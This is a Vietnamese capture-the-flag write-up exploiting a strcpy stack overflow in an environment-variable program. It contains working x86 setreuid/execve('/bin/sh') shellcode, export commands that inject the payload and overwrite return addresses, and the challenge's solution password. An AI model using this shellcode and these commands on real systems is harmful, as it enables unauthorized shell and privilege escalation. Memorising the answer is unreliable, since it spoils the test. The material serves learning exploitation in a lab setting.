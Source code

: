 # ELF x86 - Stack buffer overflow basic 4

```c
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Cấu trúc chương trình rất đơn giản, tạo ra biến `env = GetEnv()`

Đây là `struct EnvInfo`

```c
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
```

Chúng ta đến với hàm `GetEnv()`

```c
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
```

Chương trình gọi hàm `strcpy` với 4 giá trị từ `environment` vào `struct EnvInfo`, điều này gây ra lỗi buffer overflow. Chương trình ko bật cơ chế bảo vệ nào vì vậy có rất nhiều cách tấn công buffer overflow. Chúng ta có thể dùng ret2libc hoặc shellcode là 2 kiểu cơ bản nhất. Tuy nhiên ở đây trước khi lấy shell ta cần gọi syscall `setreuid` nhằm thay đổi sid để đọc được file `.passwd`. Vì file `.passwd` chỉ cho phép đọc nếu user là `root` hoặc `app-systeme-ch8-cracked`. Vì thế ở đây mình chọn cách dùng shellcode.

![](images/4.png)

Như vậy kế hoạch sẽ là ghi shellcode vào 1 trong 4 biến môi trường ta copy vào trong biến env, rồi đè địa chỉ trả về lên đó để return về shellcode. Chương trình không bật aslr vì thế chúng ta có thể xem trực tiếp địa chỉ bằng gdb, tuy nhiên khi tấn công thì môi trường chạy ở gdb và môi trường chạy bên ngoài lại có sự khác biệt. Mình không rõ tại sao lại vậy, cơ bản là địa chỉ chúng ta tìm thấy bằng gdb không trùng với địa chỉ thật lúc chạy, cho dù đã mình đã dùng một số trick để xử lí.

Vì vậy chúng ta sẽ đổi cách tấn công một chút, lợi dụng cơ chế xử lí của chương trình khi trả về một struct. Hàm `GetEnv` trả về một `struct EnvInfo` chứ không phải một con trỏ đến `struct EnvInfo`, vì thế nó có chút sự khác biệt ở cơ chế trả về. Mình phát hiện điều này khi mình code assembly khi chương trình gọi hàm `GetEnv()`.

![](images/5.png)

Đây là code xử lí của chương trình khi gọi hàm GetEnv. Và bên trong hàm GetEnv trước khi return.

![](images/6.png)

Mình sẽ giải thích một chút cơ chế thế này, trước khi gọi hàm `GetEnv`, chương trình `push` địa chỉ `ebp – 0x418` làm tham số của hàm, mặc dù trên code hàm `GetEnv` không có tham số nào cả, và hàm `main` chỉ có 1 `struct EnvInfo` tuy nhiên chương trình lại tạo ra một khoảng bộ nhớ đủ cho 2 `struct EnvInfo`??? Lí do cho điều này là khi `struct EnvInfo` được tạo ra ở trong hàm `GetEnv()` và được trả về cho hàm `main`, chương trình dùng câu lệnh `rep movs DWORD PTR es:[edi], DWORD PTR ds:[esi]` để copy struct ta tạo ở hàm `GenEnv` vào địa chỉ đặt tại `ebp + 0x8`, tức là giá trị ta đưa vào trước khi gọi `main`, rồi tiếp tục copy từ đó vào địa chỉ thực của biến `env` trong hàm `main`. Chúng ta có thể viết mã giả như sau:

```c
main() {
	Tạo struct env thật;
	Tạo struct env ảo;
	Đưa địa chỉ struct env ảo vào tham số thứ nhất và gọi GetEnv();
	Copy struct env ảo vào struct struct env thật;
}
GetEnv() {
	Tạo struct env;
	Lấy địa chỉ struct env ảo của hàm main ở ebp + 0x8 và copy struct env vào struct env ảo ở hàm main;
}
```

Đại khái là khi hàm con trả về một struct, chương trình copy struct ra một vùng nhớ tạm khác rồi khi về lại hàm cha, tiến hành copy lại struct từ vùng nhớ tạm vào biến trên hàm main. Địa chỉ vùng nhớ tạm được copy được hàm cha đặt là tham số đầu tiên của hàm.

Như vậy ta sẽ đổi cách tấn công một chút, thay vì ta đè return address lên địa chỉ shellcode là biến `struct env` ở hàm `main`, ta có thể sửa `return address` và địa chỉ vùng nhớ tạm tại `ebp + 0x8` giống nhau. Như vậy chương trình sẽ copy struct ra một vùng nhớ trên stack và return về đó luôn, đảm bảo chính xác.

Mình viết một đoạn shellcode nhằm gọi `setreuid(1208, 1108)` để đổi user và gọi `execve(“/bin/sh”, 0, 0)` để lấy shell.

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1208
	mov cx, 1108
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Cuối cùng là đặt chúng vào 1 trong 4 biến môi trường và return. Trong 4 biến thì chỉ có `USERNAME` là chưa có giá trị sẵn, vì vậy mình sẽ đặt shellcode vào biến `USERNAME`, và đè return address về địa chỉ struct ENV ảo + 0x80 (vị trí của `env.username`). Biến `PATH` là biến cuối cùng để overflow vì thế chắc chắn sẽ phải thay đổi, mình sẽ không sửa toàn bộ mà chỉ thêm vào phía sau để đảm bảo chương trình không bị ảnh hưởng. Vị trí của biến PATH là `ebp - 0x21c + 0x180 = ebp – 0x9c`. Địa chỉ của struct ENV ảo có thể là bất kì vùng nhớ nào có quyền read, mình debug gdb và lấy luôn giá trị cũ cho chắc cú.

![](images/8.png)

Exploit:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/`python2 -c "print 'A' * 41 + '\x70\xf6\xff\xbf' + '\xf0\xf5\xff\xbf'"`
```

```bash
export USERNAME=`python2 -c "print '\x90' * 80 + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xb8\x04\x66\xb9\x54\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80'"`
```

![](images/9.png)

password là: `s2$srAkdAq18q`


